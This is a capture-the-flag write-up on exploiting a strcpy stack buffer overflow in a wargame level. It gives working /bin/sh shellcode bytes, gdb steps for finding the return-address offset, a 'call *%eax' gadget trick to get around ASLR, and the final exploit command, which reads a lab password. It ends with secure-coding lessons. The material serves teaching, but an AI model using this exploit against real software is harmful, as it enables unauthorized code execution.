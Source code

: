 ## Level 4: avoid unsafe library functions

The source code of this level is surprisingly simple:
```
void fun(char *str) {
  char buf[1024];
  strcpy(buf, str);
}

int main(int argc, char **argv) {
  // ... 
  fun(argv[1]);
  // ... 
}
```

The problem is obvious:
`strcpy` is well-known to be unsafe,
as it doesn't check if the destination array has enough space to store the source array.
We can overwrite the memory area beyond `buf` using a long command line argument.

If you recall from the previous challenge,
the return address is stored on the stack after local variables.
By writing past the end of `buf`,
we can overwrite the return address,
so that when the function exits,
the execution will jump to where we want,
instead of the real next instruction.

In the previous challenge we could jump to the insecure function `run`.
In this program however,
we don't have such easy target.
On the other hand,
we can bring insecure code inside,
using the input string.
We could inject what is commonly called a *shellcode*:
a small piece of binary code that executes `/bin/sh`.

Implementing such shellcode is beyond the scope of this article.
If you're interested,
it's thoroughly explained in the Smash The Stack article[5].
Essentially it's a modified version of a simple C program like this:
```
#include <stdio.h>

void main() {
   char *name[2];

   name[0] = "/bin/sh";
   name[1] = NULL;
   execve(name[0], name, NULL);
}
```
Writing shellcode is not easy.
After compiling the above program,
there is more work to do,
such as rewriting assembly instructions that use `NULL` values,
as `strcpy` won't copy anything beyond the first `NULL`.

For our purposes,
we can take the finished shellcode from the Smash The Stack article[5],
and for convenience, let's save it in a shell variable:
```
EGG=$(printf '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh')
```
Next,
we need to find the exact location of the return address.
The content of the stack will look something like this when we are inside `fun`:
```
0x0000      content of the local variable buf (1024 bytes)
0x0400+?    the return address
```
That is,
the return address should be a few bytes after the end of `buf`.
We can find the right position using `gdb`.
When we overwrite the return address with something invalid,
`gdb` will print the address it could not jump to.
We can use this to guess the right location.
We know that the size of `buf` is 1024,
so let's run the program with a longer string:
```
$ gdb /levels/level04/level04
(gdb) run $(python -c 'print "A" * 1100')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1100')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```
We have successfully overwritten the return address with "A"s.
Let's try another string,
something that will help us pinpoint the correct position:
```
(gdb) run $(python -c 'print "A" * 1024 + "abcdefghijklmnopqrstuvwxyz"')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1024 + "abcdefghijklmnopqrstuvwxyz"')

Program received signal SIGSEGV, Segmentation fault.
0x706f6e6d in ?? ()
```
That looks within our `abc...` sequence.
Let's check the ASCII codes to find the exact location:
```
$ echo abcdefghijklmnopqrstuvwxyz | hexdump -C
00000000  61 62 63 64 65 66 67 68  69 6a 6b 6c 6d 6e 6f 70  |abcdefghijklmnop|
00000010  71 72 73 74 75 76 77 78  79 7a 0a                 |qrstuvwxyz.|
0000001b
```
Since `m=6d n=6e o=6f p=70`,
the return address is in the place of the letters `mnop`.
As there are 12 letters before "m",
we can calculate the target length is 1024 + 12 = 1036.
Let's verify with one last test in `gdb`:
```
(gdb) run $(python -c 'print "A" * 1036 + "BBBB"')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1036 + "BBBB"')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```
Perfect.
If we put the shellcode at the beginning of the buffer,
then our input string will be in this form:
```
SSSSSSSS PPPPPPPPPPPPPPPPPPPPPP AAAA
```
Where `S` indicate the shellcode,
`P` the padding, and `A` the jump address.
We calculated the length of `S + P = 1036`,
to know the length of `P` alone we must find the length of `S`:
```
$ printf $EGG | wc -c
45
```
Thus, the length of the padding should be `1036 - 45 = 991` characters.

The only thing missing is the jump address.
We want to jump to the address of `buf`,
but we cannot really know that.
In the past,
the stack used to be at the same address in all programs,
which was easy to exploit.
Today,
thanks to *Address Space Layout Randomization (ASLR)* used in modern operating systems,
the start address of the stack is randomized,
making it extremely difficult to guess the right location.

There is something else we can try.
On 32-bit x86 processors,
a function that returns a pointer value places its result in register `%eax`.
The result of `strcpy` is the address of the destination,
in our case `buf`.
And since `strcpy` is the last line in the function,
there is nothing else to change the content of `%eax` before the function exits.
Finally,
a `call *%eax` instruction executes the code at the address stored in `%eax`,
so if there is any such instruction inside the code,
we can use its address:
```
$ objdump -d /levels/level04/level04 | grep call.*eax
 8048488:   ff 14 85 1c 9f 04 08    call   *0x8049f1c(,%eax,4)
 80484cf:   ff d0                   call   *%eax
 80485fb:   ff d0                   call   *%eax
```
Bingo!
We can use either `0x080484cf` or `0x080485fb` as the address:
```
$ /levels/level04/level04 $EGG$(python -c 'print "A" * 991')$(printf '\xcf\x84\x04\x08')
/levels/level04 $ cat /home/level04/.password 
paegeiqu
```

## Lessons to learn

- Don't use unsafe library functions like `strcpy`.
  Check the documentation, it usually warns of security issues.

- Always make sure that arrays cannot be written beyond their boundaries.

- Always validate user input, and set reasonable limits to length.

